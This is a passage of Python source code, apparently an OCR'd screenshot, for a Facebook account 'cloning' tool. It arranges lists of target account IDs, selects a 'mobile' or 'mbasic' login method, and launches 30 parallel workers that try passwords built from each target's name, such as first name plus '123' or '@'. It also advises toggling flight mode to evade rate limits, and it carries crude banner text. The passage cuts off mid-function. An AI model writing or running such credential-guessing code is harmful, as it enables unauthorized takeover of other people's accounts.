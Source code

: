def setting():
	hu = '3'
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)
	elif hu in ['2','02']:
		muda=[]
		for bacot in sorted(id):
			muda.append(bacot)
		bcm=len(muda)
		bcmi=(bcm-1)
		for xmud in range(bcm):
			id2.append(muda[bcmi])
			bcmi -=1
	elif hu in ['3','03']:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	else:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	print('\x1b[1;92m LOGIN SEXY\n\x1b[1;97m [1] METHOD Sex ')
	os.system('espeak -a 300 " 1,  method,  Sex"')
	hc = input(' CHOOSE: ')
	if hc in ['1','01']:
		method.append('mobile')
	elif hc in ['9','09']:
		method.append('mbasic')
	else:
		method.append('mobile')
	passwrd()
	exit()

def passwrd():
	os.system('clear')
	banner()
	print(f"\033[97;1m[\033[92;1m+\033[97;1m]\033[1;92m USER NAME\033[1;91m :\033[1;96m "+NameX)
	print('\033[97;1m[\033[92;1m+\033[97;1m] \033[0;92mTOTAL IDz :\033[0;97m '+str(len(id)))
	print("\033[97;1m[\033[92;1m+\033[97;1m] \033[0;95mCloning Speed Super Fast")
	print("\033[97;1m[\033[92;1m+\033[97;1m] \033[0;92mTURN ON/OFF FLIGHT MODE IN EVERY 5 MIN")
	TUTULj(f'\033[0;97m===============================================')
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(nmf)
					pwv.append(frs+'@')
					pwv.append(frs+'@123')
					pwv.append(frs+'@@')
					pwv.append(frs+'@@@')
					pwv.append(frs+'@@@@')
					pwv.append(frs+'@#')
					pwv.append(frs+'1122')
					pwv.append(frs+'12')
					
